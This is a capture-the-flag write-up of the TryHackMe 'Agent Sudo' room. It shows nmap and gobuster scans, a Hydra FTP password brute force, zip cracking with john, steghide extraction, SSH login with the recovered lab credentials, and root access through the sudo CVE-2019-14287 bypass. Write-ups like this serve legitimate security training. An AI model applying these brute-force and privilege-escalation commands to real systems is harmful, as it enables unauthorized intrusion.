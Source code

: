 ```yaml
---
title: TryHackMe - Agent Sudo
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, web, privesc, bruteforce, hydra, suid, john, crack, gobuster]
---
```


# Agent Sudo

You found a secret server located under the deep sea.  
Your task is to hack inside the server and reveal the truth.

### Task 2: Enumerate
### Task 3: Hash cracking and brute-force
### Task 4: Capture the user flag  
### Task 5: Privilege escalation



## Enumerate
### nmap

```sh 
nmap -sV -sC -v 10.10.224.246
```

```sh
Scanning 10.10.224.246 [1000 ports]
Discovered open port 22/tcp on 10.10.224.246
Discovered open port 21/tcp on 10.10.224.246
Discovered open port 80/tcp on 10.10.224.246

21/tcp  open     ftp            vsftpd 3.0.3

22/tcp  open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)

80/tcp  open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

902/tcp filtered iss-realsecure

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

### Http_80

 **ip**  `10.10.55.182`

**To Do List**  
- run gobuster
- surf the web  
- view source code  
- robots.txt  
- gobuster  

```sh
gobuster dir -u http://10.10.55.182 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
### Result
Nothing much 

### surf the web

![](/assets/img/Agent_sudo/1.png)

Let's try spoofing as C and get the same URL with curl.  
-A allows us to spoof the user agent and -L follows any redirects.

![](/assets/img/Agent_sudo/2.png)

Now we have a user `chris` but not sure it's for ssh or ftp.

### ftp-21

## bruteforce
```sh
hydra -L users.txt -P passwords.txt <IP> ftp 
# hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.55.182 ftp
```

![](/assets/img/Agent_sudo/3.png)

## Result
ftp details  
- user name: chris  
- password: crystal  
log in!!!
```sh
ftp chris@10.10.55.182 
```

![](/assets/img/Agent_sudo/4.png)


we got the file, concatenate it:  
![](/assets/img/Agent_sudo/5.png)


Will have to go back and get the images. We run binwalk on the png file which is the most likely to contain some hidden files.

We get these three files:
i
- 365  
- 365.zlib  
- 8702.zip  
- To_agentR.txt  

The zip file is encrypted. We can use john to crack the password:

```sh
zip2john 8702.zip > forjohn
john forjohn.txt
```

![](/assets/img/Agent_sudo/6.png)

Password = alien  
Unzip the files. 
 
You may get errors extracting the files using unzip, if so, use 7z e `zipfile`
```sh
 7z e 8702.zip
 ```  

Use `CyberChef` to decode  
`QXJlYTUx` = `Area51` = password for `steg`.  
We can now use `steghide` on the image that we never used.
```sh
steghide info cute-alien.jpg 
steghide extract -sf cute-alien.jpg 
cat message.txt
```

![](/assets/img/Agent_sudo/10.png)


### Details
With these details and the unused port (22 = ssh), we can try logging in.

Details 
- username: `james`
- password: `hackerrules!`

```sh
 ssh james@10.10.55.182 
# password = hackerrules!
```
![](/assets/img/Agent_sudo/87.png)

## Privilege escalation
Run sudo -l  
![](/assets/img/Agent_sudo/8.png)

Google search for the exploit: CVE:2019-14287  
In the exploit page, we get:  
```sh
 'sudo -u #-1 /bin/bash'
 #Read the root flag. 
```
![](/assets/img/Agent_sudo/9.png)
